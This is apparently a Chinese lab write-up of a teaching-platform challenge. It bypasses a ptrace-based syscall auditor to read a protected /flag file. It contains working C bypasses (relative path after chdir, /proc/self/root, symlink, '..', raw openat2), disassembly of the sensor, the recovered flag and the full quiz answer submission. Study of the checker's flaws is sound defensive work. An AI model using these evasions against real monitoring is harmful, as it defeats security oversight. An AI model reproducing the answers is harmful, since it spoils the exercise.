# 4-4 内网渗透与高级社工 · 终端 EDR 绕过（内核 syscall 审计下用相对路径击穿路径判定）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 内网渗透与高级社工-终端EDR绕过-G4（sectionID 7275，实战 Flag 题 11243） |
| 分类 | 内网渗透 / 终端 EDR 绕过 / 系统调用层审计规避（绕过审计器的敏感文件判定逻辑） |
| 题目描述 | 目标主机的 EDR 代理已**下沉到系统调用层**：在 syscall 边界审计文件访问，对敏感文件的读取会被内核级遥测捕获并阻断，**直接系统调用也不例外**。运维程序改为**提交 C 源码由主机编译执行**，需要写一段**绕过系统调用审计**就能读取 `/flag` 的程序。 |

Flag 题（questionID=11243）题干原文：

> 目标主机的 EDR 代理已下沉到系统调用层：在 syscall 边界审计文件访问，对敏感文件的读取会被内核级遥测捕获并阻断，直接系统调用也不例外。运维程序提交 C 源码由主机编译执行。你需要写一段能绕过系统调用审计、读取 `/flag` 的程序。

Note：本题与 4-3 同属「终端 EDR 绕过」系列，但**防护层次完全不同**——4-3 是用户态 libc 符号 Hook（`LD_PRELOAD`），直发 `syscall` 即可绕过；本题把审计下沉到 syscall 边界，**直接 syscall 不再有效**，可绕的是审计器自己的**判定逻辑**（步骤 2、3 与步骤 8 的两组证据）。另外，本题章节 `sectionFiles` 为空，**没有**附件材料（同系列 G1–G3 亦无）。

题面内部编号：`C085-G4-S1` / `C085-G4-S2` / `C085-G4-S3` / `C085-G4-M` / `C085-G4-F`。

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台，课程 ID 1639（<https://vmc.hust.edu.cn>） |
| 章节 | 内网渗透与高级社工-终端EDR绕过-G4（sectionID `7275`，envID/experimentID `1417`） |
| 环境 / 实例 | podID `qvs3llmgl3batuere3wrrik4s`，交付时 state=Running（saveTime 3h） |
| 靶机 Web | HTML `<title>` 为「主机运维执行面板」，页面副标题为 `Kernel Syscall Audit — 内核系统调用审计`；`http://172.17.0.13:12161/`（nginx；面板为容器内的 Python 程序，页面 `POST /run`，JSON 字段 `src`） |
| SSH | `172.17.0.13:12157`（本次全程 Web 交互，未使用 SSH） |
| 靶机系统 | Debian GNU/Linux 13 (trixie)，`DEBIAN_VERSION_FULL=13.6`；运行用户 `uid=1000 euid=1000 gid=1000`（ctf） |
| 面板源码 | `/opt/app/app.py`（6664 B，`0100644`，任意用户可读） |
| EDR 组件 | `/opt/edr/sensor`（16440 B，`0100755`，**未 strip**，`.symtab` 保留判定函数名 `is_flag`；题目**未提供** `sensor.c` 源码） |
| /flag | `-rw-r--r-- 1 root root` 38 字节（37 字符 + 结尾换行），world-readable |
| 进程约束 | `CapEff=0000000000000000`（无任何 capability）；`Seccomp: 2` + `Seccomp_filters: 1`；`TracerPid == PPid == sensor` 的 pid |
| 题型 | 3 道单选（11173 / 11175 / 11177）+ 1 道多选（11179）+ 1 道 Flag 填空（11243） |
| 账号 | 平台账号口令只保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录任何凭据、cookie 或私有地址 |
| 操作方式 | HTTP JSON 提交 C 源码到 `/run`，主机编译并回显输出/编译错误/阻断告警（本地辅助脚本 `probe_src.py`，请求走 `urllib` 无代理）；截图用 headless Chrome（playwright-core）采集 |
| 备注 | 选择题与 Flag 题均已提交，`GET /api/student/get/answerHistory?sectionID=7275&contestMode=0` 复核 5 题 `isCorrect=true`（判分页见步骤 15）；5 题**首次提交即全部判对**，未触发 4-2 那种「多选组合试探 + 整卷重提」流程；按惯例本文不展开选择题解析 |

## 解题过程

### 1. 侦察面板：从「用户态 hook」换成「内核 syscall 审计」（截图 01）

打开 `http://172.17.0.13:12161/`，页面副标题为 `Kernel Syscall Audit — 内核系统调用审计`，正文自述（要点）：

> 目标主机的 EDR 代理已下沉至系统调用层，在 syscall 边界审计文件访问，对敏感文件的读取会被捕获并阻断，**直接系统调用亦不例外**。运维程序改为提交 C 源码，由主机编译并执行。

页面结构与 4-3 的 G3 面板同源：一个 C 源码编辑器 + 一个执行按钮 + 下方输出区。前端逻辑仍是把编辑器内容 POST 到 `/run`：

```javascript
fetch('/run', { method: 'POST', body: JSON.stringify({ src }) })
// 返回 {"output": ...} / {"compile_error": ...} / {"blocked": true, "alert": ...}
```

所以本轮的「命令行」统一是提交一段 C 源码：

```bash
curl -sS --noproxy '*' -X POST http://172.17.0.13:12161/run \
  -H 'Content-Type: application/json' -d '{"src":"<C 源码>"}'
```

环境探针（`probes/p1_env.c`）先确认运行上下文：`uid=1000 euid=1000 gid=1000`、`cwd=/tmp/edrXXXXXX`、`LD_PRELOAD=[(null)]`（**本题不再是 LD_PRELOAD 方案**）、`stat /flag: mode=100644 uid=0 size=38`——即 `stat` 这类元数据调用不被审计，审计只覆盖 open 家族（以原始记录为准，该探针无独立截图）。



### 2. 基线失败对照一：libc 封装直读字面量 `/flag` 被阻断（截图 02）

先做最小对照，确认防御「到底拦什么」——用 libc 的三个封装依次打开字面量 `/flag`（`demo/02_baseline_libc.c`）：

```c
FILE *f = fopen("/flag", "r");
int fd = open("/flag", O_RDONLY);
fd = openat(AT_FDCWD, "/flag", O_RDONLY);
```

三次调用**全部命中阻断**，接口返回的不是输出而是告警：

```json
{"blocked": true, "alert": "EDR 告警：系统调用审计命中 /flag 访问，行为已阻断"}
```

两条要点：一是命中后**整次运行的 stdout 被整体丢弃**（程序在 `printf` 后已 `fflush`，响应里仍一行输出都没有）；二是这层审计发生在**进程之外**，不是 4-3 那种「进程内 libc 函数里 `return -1`」。



### 3. 基线失败对照二：内联汇编直发 syscall **同样**被阻断（截图 03）

上一题的答案在这一题必须重新验证：把 4-3 的杀手锏——内联汇编直接执行 `syscall` 指令——原样搬过来（`demo/03_baseline_asm.c`）：

```c
static long sc(long n, long a, long b, long c) {
    long r;
    __asm__ volatile("syscall" : "=a"(r) : "a"(n), "D"(a), "S"(b), "d"(c) : "rcx", "r11", "memory");
    return r;
}
long fd = sc(257, -100, (long)"/flag", 0);   /* 257 = openat, -100 = AT_FDCWD */
```

回显依旧是**同一条阻断告警**，没有任何输出泄露：

```json
{"blocked": true, "alert": "EDR 告警：系统调用审计命中 /flag 访问，行为已阻断"}
```

这就是本题与 4-3 的**分水岭**：4-3 的防护挂在 libc 符号层，绕开 libc 就看不见；本题的防护挂在 syscall 边界（ptrace），**是否经过 libc 与可见性无关**——`syscall` 指令本身就是它要审计的对象。因此本题的绕过点不在「怎么发起调用」，而在「审计器怎么判这次调用」。



### 4. 机制确认：面板用 `/opt/edr/sensor` 启动程序并据 `__EDR_BLOCK__` 判定（截图 04）

读可读的 `/opt/app/app.py`（`demo/04_mech_app_py.c` 打印关键行）：

```python
SENSOR = "/opt/edr/sensor"

def build_and_run(src: str) -> dict:
    d = tempfile.mkdtemp(prefix="edr", dir="/tmp")          # 每次运行一个 /tmp/edrXXXXXX，不清理
    cpath, bpath = os.path.join(d, "prog.c"), os.path.join(d, "prog")
    with open(cpath, "w") as f:
        f.write(src)
    cc = subprocess.run(["gcc", "-O0", "-w", "-o", bpath, cpath],
                        capture_output=True, text=True, timeout=20)
    if cc.returncode != 0:
        return {"compile_error": cc.stderr[:8000]}
    try:
        p = subprocess.run([SENSOR, bpath], capture_output=True, text=True,
                           timeout=10, cwd=d)
    except subprocess.TimeoutExpired:
        return {"output": "执行超时"}
    if p.returncode == 42 or "__EDR_BLOCK__" in p.stderr:
        return {"blocked": True,
                "alert": "EDR 告警：系统调用审计命中 /flag 访问，行为已阻断"}
    return {"output": (p.stdout + p.stderr)[:8000]}
```

四个约束值得记住：编译固定 `gcc -O0 -w`（**不能传 `-static`**）；程序**由 `/opt/edr/sensor` 启动**（`subprocess.run([SENSOR, bpath])`，不是直接 exec）；运行超时 10 秒、输出截断 8000 字符；命中时 `stdout` 被整体丢弃，只返回 `alert`。此外 `-w` 只关 warning——GCC 14 下 `implicit-function-declaration` 属 **error**，源码缺头文件会直接 `compile_error`（步骤 14 第 8~11 条）。

![app.py 关键行：SENSOR 路径、subprocess.run([SENSOR, bpath]) 与 returncode==42 / __EDR_BLOCK__ 判定](screenshots/04-机制确认-面板app.py运行与判定逻辑.png)

### 5. 机制确认：`sensor` 是 ptrace 监视器，不是内核组件（截图 05）

`strings /opt/edr/sensor` 与自身 `/proc/self/status` 一起给出了机制全貌（`demo/05_mech_sensor.c`）：

```text
[fork] [process_vm_readv] [ptrace] [execv] [raise] [waitpid] [strcmp]
[/flag] [usage: sensor <prog>] [__EDR_BLOCK__] [sensor.c] [is_flag]

/proc/self/status: TracerPid:	593      <-- 与 PPid 相同：sensor 既是父进程也是 tracer
/proc/self/status: Seccomp:	2        <-- SECCOMP_MODE_FILTER
/proc/self/status: Seccomp_filters:	1
/proc/self/status: CapEff:	0000000000000000
```

**机制判定**：sensor 是 `fork()` + `PTRACE_TRACEME` + `execv(prog)` 的 **ptrace 监视器**，用 `PTRACE_SYSCALL` 在被跟踪进程的每次系统调用出入口停下，再用 `process_vm_readv` 把**路径参数从被跟踪进程内存里读出来**，交给 `is_flag()` 判定；命中就向 stderr 写 `__EDR_BLOCK__` 并让整次运行以 42 退出。它既不是 `LD_PRELOAD`（实测为 `(null)`），**也不是内核态组件**——`TracerPid` 说明判定发生在**用户态的 tracer 进程里**，面板文案所称的「内核级遥测」名不副实。这一点是后面所有绕过的前提：**采集在 syscall 边界（可靠），判定在用户态字符串比较里（不可靠）**。



### 6. 路径判定矩阵：把「哪些写法能过」一次测干净

一次提交只能测一个路径（命中即整进程被阻断、stdout 被丢弃），因此每个候选路径**单独提交一次**（脚本 `matrix.py`，结果 `logs/matrix_paths.txt`）：

| 路径参数 | open 结果 | 审计判定 | 说明 |
| --- | --- | --- | --- |
| `/flag` | — | **BLOCKED** | 字面量命中 |
| `//flag` / `///flag` | — | **BLOCKED** | 连续斜杠被合并 |
| `/./flag` / `/././flag` | — | **BLOCKED** | `.` 分量被丢弃 |
| `/.//flag` / `//./flag` | — | **BLOCKED** | `.` + 连续斜杠混合 |
| `/tmp/../flag` | fd=3 **读到 flag** | PASS | **`..` 不做解析** |
| `flag`（先 `chdir("/")`） | fd=3 **读到 flag** | PASS | **非绝对路径直接放行**（标准答案） |
| `/proc/self/root/flag` | fd=3 **读到 flag** | PASS | magic link 不解析 |
| `/proc/self/cwd/flag` | fd=-1 `ENOENT(2)` | PASS | 未命中，但运行时 cwd 是 `/tmp/edrXXXXXX`，该路径本就不存在 |
| `/proc/1/root/flag` | fd=-1 `EACCES(13)` | PASS | 未命中，但跨 pid 的 `/proc/1/root` 无权限（不可利用） |
| `/flag/` | fd=-1 `ENOTDIR(20)` | PASS | 尾部斜杠未折叠 → 未命中；但内核也打不开（不可利用） |
| `/tmp/lnk44` | fd=-1 `ENOENT(2)` | PASS | 未命中；该次提交时软链已被上一次运行 `unlink`（软链真正读通见步骤 10） |

由此可刻画 `is_flag()` 的行为：**只对以 `/` 开头的参数做「合并连续 `/`、丢弃 `.` 分量」的朴素归一化，再 `strcmp(norm, "/flag")`**；它**不做** `realpath`、**不解析** `..`、**不 follow** 软链、**不解析** `/proc` magic link、**不看** inode/设备号，且对**不以 `/` 开头**的路径直接返回 0。另有一个结构性分支：`process_vm_readv` 读不到路径（例如参数指向未映射内存）时**直接放行**（fail-open）。

与 4-3 那个用 `realpath()` 归一化的 hook 相比，本题的判据**明显更弱**——4-3 的 hook 把别名、相对路径、`/proc` 借道统统堵死，只留下「换调用层次」一条路；本题恰好相反，**调用层次换不动，但路径写法有一堆漏网**。

> 核对说明：原始记录 §2.3 的矩阵表把 `/tmp/lnk44` 一行记为「fd=3 读到 flag」，与原始日志 `logs/matrix_paths.txt` 该行的 `fd=-1 errno=2(No such file or directory)` 不符——软链是在 `b3_symlink.c`/`demo/08` 的**同一次运行内**创建并随即 `unlink` 的，矩阵那次单独提交时它已不存在。本文以原始日志为准：该行只能证明「未命中审计」，软链读通 flag 的证据是步骤 10（截图 08）。

### 7. 主题解法：`chdir("/")` + 相对路径 `open("flag")`（截图 06）

判定的第一个动作是「看参数首字节是不是 `/`」——那就**不给它绝对路径**（`demo/06_bypass_final.c`）：

```c
/* 根因：is_flag() 只做「合并重复 '/' + 丢弃 '.' 分量」的朴素归一化，
 *       然后 strcmp(norm, "/flag")，且对不以 '/' 开头的路径直接返回 0。 */
chdir("/");
int fd = open("flag", O_RDONLY);            /* 相对路径，无前导 '/' */
```

回显：

```text
[+] 绕过成功：open("flag") 未被 syscall 审计命中
[+] /flag (38 字节) = vmc{HhU6W63oUNcr7VY7ZYFYM7dsJvJMve33}
[+] hex = 76 6d 63 7b 48 68 55 36 57 36 33 6f 55 4e 63 72 37 56 59 37 5a 59 46 59 4d 37 64 73 4a 76 4a 4d 76 65 33 33 7d 0a
```

原理：参数 `flag` 不以 `/` 开头，`is_flag()` 归一化的结果就是 `flag` 本身（**不带前导 `/`**），`strcmp("flag", "/flag") != 0` → 直接放行；而内核完全按 cwd（此时是 `/`）把它解析成 `/flag` 正常打开。**审计器拿到了正确的 syscall 号与正确的路径字符串，却因为「字符串不等于 `/flag`」而放行**——这就是本题的根因，也是最短、最稳定、不依赖内核版本的解法（不需要可写目录、不需要新内核、不需要额外进程）。



### 8. 反汇编级确认：`is_flag()` 的归一化循环与 `strcmp("/flag")`（截图 19）

sensor **未 strip**，因此判定逻辑可以逐指令复核，不必停留在行为推断（`demo/19_disasm_is_flag.c`）：

```text
$ nm -S /opt/edr/sensor | grep -E ' is_flag| main'
0000000000001380 00000000000001b0 t is_flag
00000000000010e0 000000000000019c T main

$ objdump -d --disassemble=is_flag /opt/edr/sensor      # 节选
    13b6:  movq   $0x200,0x8(%rsp)              ; iov_len = 512
    13cb:  call   1050 <process_vm_readv@plt>   ; is_flag 自己把路径从被跟踪进程读出来
    13d0:  test   %rax,%rax
    13d3:  jle    14b8 <is_flag+0x138>          ; 读失败 -> 返回 0（放行，fail-open）
    13e6:  test   %dl,%dl
    13e8:  je     14a0                          ; 空串 -> 走「补一个 '/'」的收尾分支
    1439:  cmp    $0x2f,%dl                     ; '/' == 0x2f
    1452:  je     1440                          ; 合并连续 '/'
    1454:  cmp    $0x2e,%dl                     ; '.' == 0x2e
    1457:  je     1500                          ; 丢弃完整的 "." 分量
    145d:  movb   $0x2f,0x210(%rsp,%rsi,1)      ; 归一化缓冲写入 '/'
    14cd:  movb   $0x0,0x210(%rsp,%rsi,1)       ; NUL 结尾
    14d8:  lea    0xb25(%rip),%rsi  # 2004      ; rsi = .rodata 0x2004
    14df:  call   1060 <strcmp@plt>             ; strcmp(norm, <0x2004>)
    14e6:  sete   %al                           ; return strcmp(...) == 0

$ objdump -s -j .rodata /opt/edr/sensor
 2000 01000200 2f666c61 67007573 6167653a  ..../flag.usage:
                                  ^^^^^^^^ 0x2004 = "/flag"
```

`0x2004` 处的字节正是 `2f 66 6c 61 67 00` = `"/flag"`。据此可写出与反汇编等价、**能复现步骤 6 全部实测路径**的伪代码：

```c
static int is_flag(pid_t pid, const void *remote_path) {
    char raw[512], norm[512];
    struct iovec li = { raw, 512 }, ri = { (void *)remote_path, 512 };
    if (process_vm_readv(pid, &li, 1, &ri, 1, 0) <= 0) return 0;   /* 读不到就放行 */
    if (raw[0] == 0) return 0;
    size_t i = 0, n = 0;
    while (raw[i]) {
        if (raw[i] == '/') {
            while (raw[i] == '/') i++;                 /* 合并连续 '/' */
            if (raw[i] == '.') {                       /* 丢弃完整的 "." 分量 */
                if (raw[i + 1] == '/') { i++; continue; }
                if (raw[i + 1] == 0) break;
            }
            norm[n++] = '/';                           /* 只有「跨过 '/' 之后」才补 '/' */
        }
        while (raw[i] && raw[i] != '/') norm[n++] = raw[i++];
    }
    if (n == 0) norm[n++] = '/';
    norm[n] = 0;
    return strcmp(norm, "/flag") == 0;                 /* .rodata 0x2004 */
}
```

关键点在 `norm[n++] = '/'` **只在斜杠分支里**执行，由此三条漏网一次说清：

* `flag`（相对路径）→ 归一化结果就是 `flag`，**不带前导 `/`** → 不相等 → **放行**（标准答案生效的原因）；
* `/flag/` → 末尾那轮循环跨过 `/` 后**无条件补一个 `/`** → 归一化结果 `"/flag/"` → 不相等 → 放行（实测 PASS，但因 `ENOTDIR` 不可利用）；
* `/tmp/../flag` → `norm` 原样保留 `..` → 不相等 → 放行；

另加一条 fail-open：`process_vm_readv` 返回 ≤ 0（路径参数指向未映射内存等）→ **直接放行**。

> 编号说明：截图 `19` 采集于标准答案之后（原始记录时间线第 7b 条），本文按其内容归入「机制确认」，故编号与叙事顺序不完全一致；本条与步骤 6 的矩阵互为印证。



### 9. 备选一：`/proc/self/root/flag` 走 magic link（截图 07）

审计器只比对参数串，不解析 `/proc` magic link（`demo/07_bypass_procroot.c`）：

```c
int fd = open("/proc/self/root/flag", O_RDONLY);
```

```text
[备选1] /proc 别名路径（未命中审计）
open("/proc/self/root/flag") -> OK errno=0(Success)
   READ: vmc{HhU6W63oUNcr7VY7ZYFYM7dsJvJMve33}
```

内核沿 `/proc/self/root` 解析到真正的 `/flag`，而参数串 `"/proc/self/root/flag"` 与 `/flag` 不相等——同一根因（判据只看字符串）。对照记录：`/proc/1/root/flag`（步骤 6）虽同样未命中审计，却因对 root 的 pid 无 ptrace 权限而 `EACCES`，**不可利用**。



### 10. 备选二：符号链接别名（截图 08）

审计器既不 follow 软链，也不看 inode（`demo/08_bypass_symlink.c`）：

```c
const char *lnk = "/tmp/lnk44demo";
unlink(lnk);
symlink("/flag", lnk);                 /* 自建指向 /flag 的软链 */
int fd = open(lnk, O_RDONLY);
```

```text
[备选2] symlink("/flag", "/tmp/lnk44demo") 后打开软链本身
  open("/tmp/lnk44demo") -> OK errno=2(No such file or directory)
     READ: vmc{HhU6W63oUNcr7VY7ZYFYM7dsJvJMve33}
  (已 unlink 清理临时软链)
```

回显里的 `errno=2` 是**上一次调用残留的 errno**（程序开头的 `unlink(lnk)` 在软链不存在时置位 `ENOENT`，随后的 `symlink`/`open` 成功并不清除 `errno`）；`OK` 与成功读出 flag 已证明 `fd >= 0`。这条与 b3/b8 两次独立探针的结果一致（`fd=3` 且读出 flag）。



### 11. 备选三：`openat2(437)` —— syscall 号白名单的独立缺口（截图 09）

审计只挂了 `open(2)` / `openat(257)` 两个 **syscall 号**，对同为「打开文件」语义、内核 5.6+ 新增的 `openat2(437)` 完全没有处理（`demo/09_bypass_openat2.c`）：

```c
struct open_how { unsigned long long flags, mode, resolve; };
struct open_how how; how.flags = O_RDONLY; how.mode = 0; how.resolve = 0;
long fd = sc(437, -100, (long)"/flag", (long)&how, sizeof how, 0);   /* 字面量 /flag */
```

```text
[备选3] openat2(437, "/flag") —— 字面量路径 + 绕过 syscall 号白名单
  openat2 fd=3 errno=0(Success)
     READ: vmc{HhU6W63oUNcr7VY7ZYFYM7dsJvJMve33}
```

这一条与路径写法完全无关：**连字面量 `/flag` 都能直接读通**，因为它根本没进入判定函数。它构成**独立于「判定逻辑弱」的第二条根因**——只要审计靠「枚举 syscall 号」，就必然随内核新增接口持续漏检。



### 12. 备选四：`/tmp/../flag` —— 归一化不处理 `..`（截图 10）

`is_flag()` 丢弃 `.` 分量但**不解析** `..`（`demo/10_bypass_dotdot.c`）：

```c
int fd = open("/tmp/../flag", O_RDONLY);
```

```text
[备选4] 含 '..' 的绝对路径（归一化不处理 ..）
  open("/tmp/../flag") -> OK errno=0(Success)
     READ: vmc{HhU6W63oUNcr7VY7ZYFYM7dsJvJMve33}
```

同一根因，但比标准答案多一个前提（`/tmp` 必须存在/可解析），因此只作为备选。



### 13. 负面记录：fork/exec 仍被跟踪，io_uring 被 seccomp 关掉（截图 11）

把「换进程」与「换提交方式」两条经典思路也试了，都不通（`demo/11_fork_exec_traced.c`）：

```text
[负面] fork 出的子进程用字面量 /flag 打开……
[负面] exec /bin/cat /flag ……
```

响应仍是 `{"blocked": true, "alert": "EDR 告警：系统调用审计命中 /flag 访问，行为已阻断"}`——sensor 设置了 `PTRACE_O_TRACEFORK` / `PTRACE_O_TRACEEXEC`，**子进程与 exec 后的新映像自动纳入同一跟踪**，换 fork/exec 不可行。

另一条计划中的经典 EDR 绕过 `io_uring`（以 `IORING_OP_OPENAT` 让内核异步上下文替我们打开文件）也在容器层被直接掐死——seccomp 探针（`probes/p7_seccomp.c`，`errno = -ret`）：

| syscall | 结果 | 结论 |
| --- | --- | --- |
| `io_uring_setup(425)` / `io_uring_enter(426)` | **EPERM** | io_uring 被 seccomp 显式拒绝，**该绕过面无门** |
| `clone3(435)` | **ENOSYS** | 典型容器 seccomp 的 `SCMP_ACT_ERRNO(ENOSYS)` |
| `ptrace(101)` / `bpf(321)` / `userfaultfd(323)` / `mount(165)` / `unshare(272)` / `kexec_load(246)` / `perf_event_open(298)` | EPERM | 无 capability，全部拒绝 |
| `openat2(437)` | 参数不全时 EINVAL；**可正常使用**（步骤 11 实测读通 flag） | **未被 seccomp 拦**，但被审计层漏掉 |
| `openat(257)` / `open(2)` / `pidfd_open(434)` / `faccessat2(439)` | 正常 | 未被拦 |

值得注意的**层次错位**：seccomp 层准确关掉了 io_uring、clone3 这类新接口，审计层却**漏掉了同为新接口的 `openat2(437)`**——两层防护的 syscall 覆盖清单不一致，新接口在 seccomp 侧被拦、在同语义的审计侧被放行。



### 14. 失败与构建期踩坑清单

除上述正面对抗外，构建/探针阶段也踩了一批坑，如实保留：

| # | 尝试 | 现象 | 原因 | 如何调整 |
| --- | --- | --- | --- | --- |
| 1 | libc `fopen`/`open`/`openat` 直读字面量 `/flag`（截图 02） | 三条全部 **BLOCKED**，无任何 stdout | 命中 `is_flag("/flag")` 字面量比对 | 放弃「绕过 libc」思路，改为绕过**判定逻辑** |
| 2 | 内联汇编 `syscall(257, AT_FDCWD, "/flag", 0)`（截图 03） | **BLOCKED** | ptrace 在 syscall 边界审计，与是否经 libc 无关 | 本题与 4-3 的分水岭：可见性不再取决于调用层次 |
| 3 | fork 子进程里 `open("/flag")`（截图 11） | **BLOCKED** | sensor 开了 `PTRACE_O_TRACEFORK`，子进程自动纳入跟踪 | 换 fork 不可行 |
| 4 | `execve("/bin/cat", {"cat","/flag"})`（截图 11） | **BLOCKED** | `PTRACE_O_TRACEEXEC` 生效，exec 后仍被跟踪 | 换 exec 不可行 |
| 5 | 路径变形 `//flag`、`///flag`、`/./flag`、`/././flag`、`/.//flag`、`//./flag` | 全部 **BLOCKED** | 归一化会合并连续 `/`、丢弃 `.` 分量 | 变形无效；真正的缺口在 `..`、软链、magic link 与**相对路径** |
| 6 | `/flag/`（尾部斜杠） | 未命中审计，但 `fd=-1 errno=20 ENOTDIR` | 归一化未折叠尾部斜杠 → 不等于 `/flag`；但内核无法以目录方式打开普通文件 | 理论漏网点，**不可利用**，如实记录 |
| 7 | `/proc/1/root/flag` | 未命中审计，但 `fd=-1 errno=13 EACCES` | `/proc/<pid>/root` 需要对该 pid 有 ptrace 权限，`ctf` 对 pid 1 无权限 | 改用 `/proc/self/root/flag`（步骤 9）成功 |
| 8 | `io_uring` 走 `IORING_OP_OPENAT` | `io_uring_setup(425)` 直接 **EPERM** | 容器 seccomp 过滤器显式拒绝 io_uring | 该绕过面在本环境被关闭，记为负面 |
| 9 | 首次用 `#include "../../raw.h"` 复用本地头文件 | `fatal error: ../../raw.h: No such file or directory` | 面板把源码**单独写进 `/tmp/edrXXXXXX/prog.c`** 编译，本地相对路径不存在 | 改为 `mk.sh` 把 helper 内联进自包含 `.c` |
| 10 | C 里写 `strstr(line, '"output"')` | `error: passing argument 2 of 'strstr' makes pointer from integer` | `'"output"'` 在 C 里是**多字符字符常量**（int），不是字符串 | 改成 `"\"output\""` |
| 11 | `p0_hello.c` 漏 `#include <unistd.h>` 就调 `getuid()` | `error: implicit declaration of function 'getuid'` | 面板虽传 `-w`，但 GCC 14 把隐式声明当 **error** | 每个探针补齐 `<unistd.h>`/`<fcntl.h>`/`<string.h>`/`<errno.h>` |
| 12 | 首版 seccomp 探针用 libc `errno` 打印原始 syscall 结果 | 全部显示 `errno=0(Success)` | 内联汇编的 raw syscall **不经过 libc**，不会设置 `errno` | 改为 `errno = -ret` 自行映射，得步骤 13 的真实结论 |
| 13 | 计划「一次提交跑完整个路径矩阵」（fork 每个用例、父进程汇总） | 未采用 | 任一子进程命中即触发整体阻断，且 `blocked` 分支丢弃全部 stdout，无法在一次运行内汇总 | 改为**一个路径一次提交**，由 `matrix.py` 驱动并本地汇总 |

截图对应：第 1 条 → 截图 02；第 2 条 → 截图 03；第 3、4 条 → 截图 11；其余为探针/编译实测（原始记录与 `logs/` 留存，未单独截图）。

### 15. 提交答案与平台判分（截图 12）

拿到 flag 后一次性提交 5 题：

```bash
curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE/api/student/submitAnswers" \
  -F "sectionID=7275" \
  -F 'answers={"questionID":11173,"answer":"{\"answer\":[\"B\"],\"num\":1}"}' \
  -F 'answers={"questionID":11175,"answer":"{\"answer\":[\"C\"],\"num\":1}"}' \
  -F 'answers={"questionID":11177,"answer":"{\"answer\":[\"A\"],\"num\":1}"}' \
  -F 'answers={"questionID":11179,"answer":"{\"answer\":[\"A\",\"B\",\"D\"],\"num\":3}"}' \
  -F 'answers={"questionID":11243,"answer":"{\"num\":3,\"answer\":[\"\",\"\",\"vmc{HhU6W63oUNcr7VY7ZYFYM7dsJvJMve33}\"]}"}' \
  -F "contestMode=0"
# code=0, msg=success
```

`GET /api/student/get/answerHistory?sectionID=7275&contestMode=0` 复核结果（完整响应另存 `logs/answerHistory_7275.json`）：

| questionID | 题型 | 提交内容 | isCorrect |
| --- | --- | --- | --- |
| 11173 | 单选 | `{"answer":["B"],"num":1}` | true |
| 11175 | 单选 | `{"answer":["C"],"num":1}` | true |
| 11177 | 单选 | `{"answer":["A"],"num":1}` | true |
| 11179 | 多选 | `{"answer":["A","B","D"],"num":3}` | true |
| 11243 | Flag 填空 | `{"num":3,"answer":["","","vmc{HhU6W63oUNcr7VY7ZYFYM7dsJvJMve33}"]}` | true |

平台答题页 `/student/course/answer/7275` 显示 5 处「作答正确」。顶层 `scoreRate` 为 `None`、`answerQuestion[]` 不含 `questionType`/`answerSubmit` 字段，属平台历史显示现象（与 4-1/4-2/4-3 一致），判分以 `answerHistory.isCorrect` 为准；**5 题首次提交即全部判对**，因此本题没有用到 4-2 那种「多选逐组合试探 + 整卷重提刷新」的流程。按惯例本文不展开选择题解析（其中 11179 被排除的选项已由步骤 16 的追问实测核验）。



### 16. 教学问答：syscall 审计的边界与判定逻辑缺陷（截图 13–18）

围绕本题主题向课程教学问答平台（Qwen2.5）提了 6 个问题（每题新开会话，会话 5283–5288），问答原文另存 `.local/process/4-4-qa-transcript.json`，另对 2 个回答做了定向追问（脚本 `ask_qa.py` + `qa-questions.json`、`ask_followup.py`）。6 条回答长度分别为 1071 / 1092 / 695 / 1396 / 802 / 1154 字符，均在句末自然收束、**未被 1024-token 截断**（`ask_continue.py` 备而未用）。

**问题 1：ptrace `PTRACE_SYSCALL`、eBPF tracepoint、auditd 三种 syscall 级监控在可见性/开销/可绕过性上的差异；ptrace 能否做到「直接系统调用也不例外」**（截图 13）——三者对比**方向正确**（ptrace 覆盖全但开销大；eBPF 走内核 tracepoint、开销低但受 tracepoint 覆盖限制；auditd 覆盖窄、开销低），与本题「内联汇编 syscall 仍被捕获」（截图 03）一致。**但有两处不准确，以靶机实测反驳**：

1. 模型称 ptrace「**需要 root 权限**」——本靶机的 `ctf`（uid=1000、`CapEff=0`）正是被 `/opt/edr/sensor` 跟踪的（`TracerPid == PPid == sensor`，截图 05）：**父进程跟踪自己的子进程不需要任何特权**，`PTRACE_TRACEME` 是子进程主动请求的；
2. 模型称「恶意程序可能通过**修改自己的系统调用栈**来规避监控」——含混且不成立；本题实测的绕过与 syscall 栈无关，而是**审计器的路径判定缺陷**（步骤 6/8）与 **syscall 号覆盖缺口**（步骤 11）。

模型也**没有**指出 ptrace 方案最致命的点：判定发生在用户态 tracer 里，正确性完全取决于 tracer 自己的路径归一化实现。

> 口径说明：第 1、2 点属事实错误，本文以靶机实测（`/proc/self/status`、`CapEff=0`）为准。



**问题 2：`strcmp(path,"/flag")` 这类字面量判定的绕过方式；正确的敏感文件判定应基于什么（inode+设备号、fd 归一化、`realpath`、`openat2` 的 `RESOLVE_NO_MAGICLINKS`）**（截图 14）——绕过清单与正确判据的**覆盖面正确**（相对路径、软链、`/proc/self/root/flag`、`..` 四条与步骤 6 的矩阵实测吻合）。**但有一个事实错误、一个前提错误**：

1. 模型写「攻击者首先执行 `chdir("/flag")`」——`chdir` 只能切目录，对普通文件必返回 `ENOTDIR`，而实测 `/flag` 是 `-rw-r--r--` 普通文件（`0100644`，步骤 1）；正确步骤是 `chdir("/")` 再 `open("flag")`；
2. 模型写「**如果 `/flag` 是一个符号链接**，攻击者可以创建指向它的符号链接」——**前提搞反了**：绕过之所以成立，是因为**审计器不 follow 软链、不看 inode**，与 `/flag` 本身是不是软链无关（实测就是普通文件）；
3. 解释「fd 归一化」时空转（只说"指向同一个文件描述符"），没有落到可操作做法：`fstat(fd)` 比对 `st_dev` + `st_ino`。

> 口径说明：第 1、2 点属事实/前提错误，本文以靶机实测（`chdir("/")` + `open("flag")` 成功、`/flag` 为普通文件）为准。



**追问（会话 5284）**：向模型指出「`chdir("/flag")` 必返回 `ENOTDIR`」并要求纠正——模型**承认并纠正**，明确写出「`chdir` 会因 `/flag` 不是目录而返回 `ENOTDIR`」，并给出正确步骤 `chdir("/")` → `open("flag")`。**但纠正后的回答引入了新的自相矛盾**：末尾写「即使路径字符串字面量比对时认为路径是 `/flag`，实际打开的文件路径仍然是 `/flag`，**不会被绕过**」——这句与它前文「这样可以绕过」以及实测结论正好相反（应为「不会被**检测到**」）。

